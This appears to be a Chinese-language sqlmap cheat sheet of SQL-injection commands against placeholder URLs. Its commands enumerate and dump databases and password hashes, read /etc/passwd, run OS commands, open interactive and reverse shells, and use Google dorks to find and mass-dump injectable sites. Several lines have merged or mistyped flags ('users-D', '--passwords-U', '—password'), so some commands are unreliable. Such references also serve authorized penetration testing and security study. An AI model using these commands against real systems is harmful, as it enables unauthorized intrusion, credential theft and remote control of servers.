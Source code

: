 sqlmap工具
==========

sqlmap实例：
* `sqlmap -h` 帮助
* `sqlmap -u "http://url/news?id=1" --current-user` #获取当前用户名称
* `sqlmap -u "http://www.xxoo.com/news?id=1" --current-db` #获取当前数据库名称
* `sqlmap -u "http://www.xxoo.com/news?id=1" --tables -D "db_name"` #列表名
* `sqlmap -u "http://url/news?id=1" --columns -T "tablename" users-D "db_name" -v 0` #列字段
* `sqlmap -u "http://url/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0` #获取字段内容
* `sqlmap -u "http://url/news?id=1" --smart --level 3 --users` # smart智能 level 执行测试等级
* `sqlmap -u "http://url/news?id=1" --dbms "Mysql" --users` # dbms 指定数据库类型
* `sqlmap -u "http://url/news?id=1" --users` #列数据库用户
* `sqlmap -u "http://url/news?id=1" --dbs` #列数据库
* `sqlmap -u "http://url/news?id=1" --passwords` #数据库用户密码
* `sqlmap -u "http://url/news?id=1" --passwords-U root -v 0` #列出指定用户数据库密码
* `sqlmap -u "http://url/news?id=1"  --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20` #列出指定字段，列出20条
* `sqlmap -u "http://url/news?id=1" --dump-all -v 0` #列出所有数据库所有表
* `sqlmap -u "http://url/news?id=1" --privileges` #查看权限
* `sqlmap -u "http://url/news?id=1" --privileges -U root` #查看指定用户权限
* `sqlmap -u "http://url/news?id=1" --is-dba -v 1` #是否是数据库管理员
* `sqlmap -u "http://url/news?id=1" --roles` #枚举数据库用户角色
* `sqlmap -u "http://url/news?id=1" --udf-inject` #导入用户自定义函数（获取系统权限！）
* `sqlmap -u "http://url/news?id=1" --dump-all --exclude-sysdbs -v 0` #列出当前库所有表
* `sqlmap -u "http://url/news?id=1" --union-cols` #union 查询表记录
* `sqlmap -u "http://url/news?id=1" --cookie "COOKIE_VALUE"` #cookie注入
* `sqlmap -u "http://url/news?id=1" -b` #获取banner信息
* `sqlmap -u "http://url/news?id=1" --data "id=3"` #post注入
* `sqlmap -u "http://url/news?id=1" -v 1 -f` #指纹判别数据库类型
* `sqlmap -u "http://url/news?id=1" --proxy"http://127.0.0.1:8118"` #代理注入
* `sqlmap -u "http://url/news?id=1" --string"STRING_ON_TRUE_PAGE"` #指定关键词
* `sqlmap -u "http://url/news?id=1" --sql-shell` #执行指定sql命令
* `sqlmap -u "http://url/news?id=1" --file /etc/passwd`
* `sqlmap -u "http://url/news?id=1" --os-cmd=whoami` #执行系统命令
* `sqlmap -u "http://url/news?id=1" --os-shell` #系统交互shell
* `sqlmap -u "http://url/news?id=1" --os-pwn` #反弹shell
* `sqlmap -u "http://url/news?id=1" --reg-read` #读取win系统注册表
* `sqlmap -u "http://url/news?id=1" --dbs-o "sqlmap.log"` #保存进度
* `sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log" --resume` #恢复已保存进度sqlmap -g "google语法" --dump-all --batch #google搜索注入点自动 跑出所有字段攻击实例
* `sqlmap -u "http://url/news?id=1&Submit=Submit" --cookie="PHPSESSID=41aa833e6d0d28f489ff1ab5a7531406" --string="Surname" --dbms=mysql --users —password`
